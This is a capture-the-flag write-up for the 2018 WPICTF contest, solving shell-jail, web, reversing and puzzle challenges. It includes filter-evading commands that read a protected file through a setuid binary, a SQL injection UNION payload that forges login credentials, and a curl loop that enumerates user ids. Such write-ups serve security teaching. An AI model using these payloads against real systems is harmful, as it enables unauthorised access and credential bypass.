

# 2018-04-13-WPICTF #

[CTFTime link](https://ctftime.org/event/600) | [Website](https://wpictf.xyz/)

---

## Challenges ##

### pwn ###

 - [ ] 100 ezpz
 - [x] [150 Shell-JAIL-1](#pwn--150-shell-jail-1)
 - [ ] 200 Forker.1
 - [x] [250 Shell-JAIL-2](#pwn--250-shell-jail-2)
 - [ ] 300 Breakingout
 - [ ] 300 Forker.2
 - [ ] 500 Forker.3
 - [ ] 750 Forker.4

### Forensics ###

 - [ ] 200 Big Guy
 - [ ] 400 jay-peg

### Web ###

 - [x] [150 Dance](#web--150-dance)
 - [x] [200 Vault](#web--200-vault)

### Crypto ###

 - [ ] 200 guess5

### Reversing ###

 - [x] [50 Penguin](#reversing--50-penguin)
 - [ ] 150 kerning

### Misc ###

 - [x] [1 Read](#misc--1-read)
 - [x] [2 Get a job](#misc--2-get-a-job)
 - [x] [5 Feedback](#misc--5-feedback)
 - [x] [10 Discord](#misc--10-discord)
 - [x] [50 Kittens](#misc--50-kittens)
 - [x] [100 Sneakers](#misc--100-sneakers)
 - [x] [100 Bitpuzzler](#misc--100-bitpuzzler)

### Recon ###

 - [ ] 50 Window

---

## pwn / 150 Shell-JAIL-1 ##

**Files provided**

> login (SSH key, not disclosed)

**Description**

> Download the login private key, then run:
> ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz
> redundant servers on 31338 and 31339
> made by Ben Chaney

**Solution**

After logging in, we are put immediately into `/home/pc_owner`, on a very restricted machine:

    $ whoami
    shjail

    $ touch /tmp/file
    touch: /tmp/file: Read-only file system

Everything else is read-only.

    $ ls -al
    total 28
    drwxr-xr-x    1 pc_owner pc_owner      4096 Apr 13 08:03 .
    drwxr-xr-x    1 root     root          4096 Apr 13 08:03 ..
    -r-sr-sr-x    1 pc_owner pc_owner     10880 Apr 13 08:03 access
    -r--r--r--    1 pc_owner pc_owner      1005 Apr 13 04:50 access.c
    -r--r-----    1 pc_owner pc_owner        23 Apr 13 04:50 flag.txt

There is an executable, `access`, with the `setuid` bit set. `access.c` is the source code for `access`, and `flag.txt` is our target. Clearly we need to use `access` to read `flag.txt` somehow.

    $ cat access.c
    /* ... */
    int filter(const char *cmd){
      int valid = 1;
      valid &= strstr(cmd, "*") == NULL;
      valid &= strstr(cmd, "sh") == NULL;
      valid &= strstr(cmd, "/") == NULL;
      valid &= strstr(cmd, "home") == NULL;
      valid &= strstr(cmd, "pc_owner") == NULL;
      valid &= strstr(cmd, "flag") == NULL;
      valid &= strstr(cmd, "txt") == NULL;
      return valid;
    }
    
    int main(int argc, const char **argv){
      setreuid(UID, UID);
      char *cmd = gen_cmd(argc, argv);
      if (!filter(cmd)){
        exit(-1);
      }
      system(cmd);
    }

The executable runs whatever arguments we give it as the `pc_owner` user. However, many substrings are forbidden, including `flag`, so we can't just `cat flag.txt`. `*`, the basic wildcard in shell globbing is forbidden also. Luckily, there is another wildcard: [the `?` wildcard](http://www.tldp.org/LDP/abs/html/special-chars.html#WILDCARDQU), which stands for any single character. So:

    $ ./access "cat fl?g.t?t"
    wpi{MaNY_WayS_T0_r3Ad}

---

## pwn / 250 Shell-JAIL-2 ##

**Files provided**

> login (SSH key, not disclosed)

**Description**

> Download the login private key, then run:
> ssh -p 31337 -i login shjail@shelljail2.wpictf.xyz
> redundant servers on 31338 and 31339
> made by Ben Chaney

**Solution**

Same set up as the previous challenge, with one significant difference in `main`:

    int main(int argc, const char **argv){
      setreuid(UID, UID);
      char *cmd = gen_cmd(argc, argv);
      if (!filter(cmd)){
        exit(-1);
      }
      setenv("PATH", "", 1); 
      system(cmd);
    }

The `PATH` environment variable is cleared, so `cat` will not work anymore. We will have to use one of the [shell builtins](https://www.gnu.org/software/bash/manual/html_node/Bourne-Shell-Builtins.html). Here is a simple method:

    $ ./access "source fl?g.t?t"
    sh: flag.txt: line 1: wpi{p0s1x_sh3Lls_ar3_w13rD}: not found

This attempts to parse `flag.txt` as a shell script, which naturally fails. Luckily, the error message prints out the flag for us.

---

## Web / 150 Dance ##

**No files provided**

**Description**

> https://dance.wpictf.xyz
> by binam

**Solution**

Navigating to the URL in a browser immediately redirects us to [this helpful video](https://www.youtube.com/watch?v=dQw4w9WgXcQ#t=0m09s). After taking some inspiration from the video, we attempt a non-browser approach:

    $ curl "https://dance.wpictf.xyz"
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    
You should be redirected automatically to target URL: <a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ#t=0m09s">https://www.youtube.com/watch?v=dQw4w9WgXcQ#t=0m09s</a>.  If not click the link.

Still not terribly useful. Let's enable verbose mode for `curl`:

    $ curl -v https://dance.wpictf.xyz
    > GET / HTTP/1.1
    ...
    > 
    < HTTP/1.1 302 FOUND
    * Server nginx/1.13.12 is not blacklisted
    < Server: nginx/1.13.12
    < Date: Sun, 15 Apr 2018 19:35:02 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 309
    < Connection: keep-alive
    < Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ#t=0m09s
    < Set-Cookie: flag=E1KSn2SSktOcG2AeV3WdUQAoj24fm19xVGmomMSoH3SuHEAuG2WxHDuSIF5wIGW9MZx=; Path=/
    < Set-Cookie: Julius C.="got good dance moves."; Path=/
    < Strict-Transport-Security: max-age=31536000
    < 
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>Redirecting...</title>
    ...

Two cookies are given:

> `flag=E1KSn2SSktOcG2AeV3WdUQAoj24fm19xVGmomMSoH3SuHEAuG2WxHDuSIF5wIGW9MZx=`

This should be our flag. It looks like base64, but it produces garbage after decoding.

> `Julius C.="got good dance moves."`

Julius C. here is a hint / reference to Julius Caesar, and hence the [Caesar cipher](https://en.wikipedia.org/wiki/Caesar_cipher). This cipher applies to letters and leaves numbers and other data intact. Applying it to the decoded flag data is not much use (mostly binary data). So we try to apply the shift with all 25 keys to the base64 string itself:

    #!/usr/bin/env python
    import base64, string
    flag = "E1KSn2SSktOcG2AeV3WdUQAoj24fm19xVGmomMSoH3SuHEAuG2WxHDuSIF5wIGW9MZx="
    upper = string.ascii_uppercase
    lower = string.ascii_lowercase
    for key in range(1, 26):
        shift = string.maketrans(
            upper + lower,
            upper[key:] + upper[:key] + lower[key:] + lower[:key])
        print key, base64.b64decode(string.translate(flag, shift))

> [link to script](scripts/web-150-dance-shift.py)

(Or use a website like [this](https://www.xarg.org/tools/caesar-cipher/).)

And, sure enough, with a key of 17, we get:

    WPI{bInAm_do3sn,t_kn0w_h1w_t2_creaTe_chaIIenges}

---

## Web / 200 Vault ##

**No files provided**

**Description**

> https://vault.wpictf.xyz
> UPDATE: everything fixed
> by GODeva

**Solution**

We are greeted with a login screen. The page sourcecode has two interesting comments:

    <!-- Welcome to the the Fuller Vault
    - clients/clients.db stores authentication info with the following schema:
    
    CREATE TABLE clients (
      id VARCHAR(255) PRIMARY KEY AUTOINCREMENT,
      clientname VARCHAR(255),
      hash VARCHAR(255),
      salt VARCHAR(255)
    ); -->

We are given the full schema for the `clients` table, so it is pretty clear we will be dealing with a SQL injection of some sort. The other comment:

    <!-- V2hhdD8gWW91IHRob3VnaHQgdGhpcyB3YXMgYSBmbGFnPyBIYSB0aGF0IHdvdWxkIGJlIHRvIGVhc3kuIFRoYXQncyBqdXN0IG5vdCBteSBzdHlsZT8gfiBHb3V0aGFt -->

    $ echo "V2hhdD8gWW91IHRob3VnaHQgdGhpcyB3YXMgYSBmbGFnPyBIYSB0aGF0IHdvdWxkIGJlIHRvIGVhc3kuIFRoYXQncyBqdXN0IG5vdCBteSBzdHlsZT8gfiBHb3V0aGFt" | base64 -D
    What? You thought this was a flag? Ha that would be to easy. That's just not my style? ~ Goutham

So just a red herring. The register button links to [this useful video](https://www.youtube.com/watch?v=dQw4w9WgXcQ). Let's try putting some data in the form.

> Username: '
> Password: x

Very useful! We can even expand the last entry in the traceback to see the surrounding code:

> File "/home/vault/vault/secretvault.py", line 58, in login
>     connection = sqlite3.connect(os.path.join(directoryFordata, 'clients.db'))
>     pointer = connection.cursor()
>  
>     search = """SELECT id, hash, salt FROM clients
>                WHERE clientname = '{0}' LIMIT 1""".format(clientname)
>     pointer.execute(search)
>  
>     res = pointer.fetchone()
>     if not res:
>         return "No such user in the database {0}!\n".format(clientname)
>     userID, hash, salt = res

Very clear SQL injection vulnerability. Unfortunately, it looks like the server first selects a row from the table based on `clientname`, then checks the `hash` + `salt` at a later point. No problem, we can use a SQL `UNION` statement to make our own login credentials. We make an informed guess that the hashing algorithm is SHA-256. It is not clear whether the salt is appended or prepended, so let's just not have any. We can find out the SHA-256 hash of a password of our choosing easily:

    $ python -c 'from hashlib import sha256; print sha256("foobar").hexdigest()'
    c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2

The full data that we'd like to have in the table is:

| `id` | `hash` | `salt` |
| --- | --- | --- |
| "0" | "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2" | "" |

We'll get to `id` later, so we put 0 for now (but the column type is still `VARCHAR(255)`). Knowing the query the server executes, we construct the following injection:

    ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 

So after Python formats the query string, the result is:

    SELECT id, hash, salt FROM clients WHERE clientname = ''
    UNION
    SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", ""

(Everything after is ignored due to the comment marker ` -- `.)

In other words, the server is looking for clients with `clientname` equal to the empty string, and concatenates the (non-existent) results of that query with our inline data.

To login:

> Username: ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 
> Password: foobar

It works, and we are greeted with the message:

    Welcome back valid user! Your digital secret is: "https://www.youtube.com/watch?v=dQw4w9WgXcQ" (Log out)

I'll let you guess what that video is. There is nothing else we can change in our login except for the `id` - it seems the server serves different "digital secrets" based on the `id` of the logged-in user. We can figure out the `id` for user `Goutham`, since the red herring comment hinted that `Goutham` knows the flag. Given that `id` is a `VARCHAR(255)`, the search space could be quite large, and we could use a character-by-character binary search. Luckily, it is a single digit.

    #!/bin/bash
    for id in {0..9}; do
        echo "$id"
        curl --data-urlencode "clientname=Goutham' AND id = '$id' -- " \
            --data-urlencode "password=a" "https://vault.wpictf.xyz/login"
    done

> [link to script](scripts/web-200-vault-getid.sh)

The above script injects the additional condition for `id` value into the SQL query. Only when both `clientname` and `id` match a record in the table will a row be found in the result. We can distinguish the two cases based on the different error messages produces ("no such user" vs. "incorrect password"). So we find out that `Goutham` has `id` "2".

> Username: ' UNION SELECT "2", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 
> Password: foobar

And that works:

    Welcome back valid user! Your digital secret is: "WPI{y0ur_fl46_h45_l1k3ly_b31n6_c0mpr0m153d}" (Log out)

---

## Reversing / 50 Penguin ##

**Files provided**

> [`penguin`](files/50-penguin) (binary file)

**Description**

> made by awg

**Solution**

This challenge asks us to give it the flag in the argument and it tells us whether or not it is the correct flag. There are some interesting strings to be found:

    $ strings penguin
    ...
    _hexedit}
    _fly._
    learn_
    have_
    _still_
    _wings,_
    gives_
    only_
    strings_
    WPI{
    ...

Useful, but `WPI{strings_only_gives__wings,__still_have_learn__fly.__hexedit}` is not the flag. Clearly something is missing. If we do a hexdump, we can locate the strings found:

    $ xxd penguin
    ...
    0000a20: 6974 2100 5752 4f4e 4700 5f68 6578 6564  it!.WRONG._hexed
    0000a30: 6974 7d00 7472 7900 5f66 6c79 2e5f 005f  it}.try._fly._._
    0000a40: 746f 0068 6f77 006c 6561 726e 5f00 746f  to.how.learn_.to
    0000a50: 5f00 6861 7665 5f00 5f73 7469 6c6c 5f00  _.have_._still_.
    0000a60: 796f 7500 5f77 696e 6773 2c5f 0067 6976  you._wings,_.giv
    0000a70: 6573 5f00 6f6e 6c79 5f00 7374 7269 6e67  es_.only_.string
    0000a80: 735f 0057 5049 7b00 011b 033b 3c00 0000  s_.WPI{....;<...
    ...

So, with some intense word reading in reverse and guessing based on consecutive underscores in our initial guess, we get:

    WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}

> Note: The challenge was solved using `radare2`, but I like to think this method was plausible. And more importantly, I did not want to get into annotating the lenghty, visual-heavy process of debugging a binary with `radare2`.

---

## Misc / 1 Read ##

**No files provided**

**Description**

> WPI{Hey_You_can_R3AD!}

**Solution**

...

---

## Misc / 2 Get a job ##

**No files provided**

**Description**

> WPI{Get_a_job}

**Solution**

...

> Note: the text in the description was a link to a careers page of some company. Unfortunately, I don't have the link URL anymore.

---

## Misc / 5 Feedback ##

> Note: this was a link to a survey, which gave the flag.

---

## Misc / 10 Discord ##

**No files provided**

**Description**

> (discord link)
> Flag is somewhere in discord. /flag bot does not reply to messages. It's only there for kittens.

**Solution**

The topic of the `#discord_chal` channel was `WPI{Welcome_to_Disc0rd_ya-D00fus} is the flag for the discord challenge.`

## Misc / 50 Kittens ##

**No files provided**

**Description**

> discord
> created by binam
> this challenge is stupid

**Solution**

The `#discord_chal` channel had a bot which responded to `flag` in messages:

    [1:00 PM] User: flag
    [1:00 PM] BOT/flag: @User, Every time you type "flag", a kitten dies! You killed 1 kittens. Total dead kitten count: 100

Putting hundreds of `flag` in one message was allowed. After 65535, the counter overflowed, and the bot printed a flag for the user. However, the message with the flag was automatically removed after a short while.

## Misc / 100 Sneakers ##

**No files provided**

**Description**

> nc sneakers.wpictf.xyz 31337
> redundant servers on 31338 and 31339
> made by rm -k
> Hint: ?v=F5bAa6gFvLs

**Solution**

The hint is for [this video](https://www.youtube.com/watch?v=F5bAa6gFvLs).

After `nc sneakers.wpictf.xyz 31337`, we are greeted with a big block of 1's and 0's, organised in pairs, and lines of three. Given the video which features a blind hacker using a Braille "monitor", it was quite clear these 1's and 0's represented Braille characters.

After some automated deciphering, the server was asking the user that they are "visually impaired", by:

 - typing `continue`
 - solving a simple mathematical problem and giving the numerical solution
 - typing `ACCESS FLAG!`
 - typing `please`

All input was given in a single-line representation of Braille text. The final `please` was a response to the server saying "Ah ah ah, you didn't say the magic word!", and referencing [this video](https://www.youtube.com/watch?v=RfiQYRn7fBg).

## Misc / 100 Bitpuzzler ##

**No files provided**

**Description**

> nc bitpuzzler.wpictf.xyz 31337
> redundant servers on 31338 and 31339
> made Jacob Henry

**Solution**

Connecting to the given server results in it printing something like:

    -----
    #include <stdlib.h>
    #include <stdio.h>
    #include <stdint.h>

    inline int64_t pmod(int64_t x) {
      int64_t v = x % 13707217;
      if(v < 0)
        return v + 13707217;
      else
        return v;
    }

    int main(int argc, char** argv) {
      int64_t x;
      scanf("%ld", &x);
      x = pmod(x);
      x = pmod(x - 2765383);
      x = pmod(x - 11088075);
      x = pmod(x + 53063);
      // etc etc etc, for a total of 100 operations
      x = pmod(x * 2486459);
      x = pmod(x * 4797058);
      x = pmod(x * 8426160);
      if(x == 8594918) {
        printf("Success\n");
        return 0;
      } else {
        printf("Failure\n");
        return 1;
      }
    }
    -----

With different numbers every time. This challenge required some automation, since the server would automatically close the connection after 10 seconds. Furthermore, the server gives a dozen or two scripts like the above one after the other.

The automated solver is fairly simple. It requires reversing the operations from the target number and finding out the correct input. Addition and subtraction in modular arithmetic are very simple. The only slightly non-trivial operation to reverse is the multiplication, which requires solving a linear congruence equation (like `a * b === c mod m`, find `b` for a given `a`, `c`, and `m`). Checking each integer in the range `[1; m)` is just too slow, so the [Extended Euclidian algorithm](https://en.wikipedia.org/wiki/Extended_Euclidean_algorithm) was used.
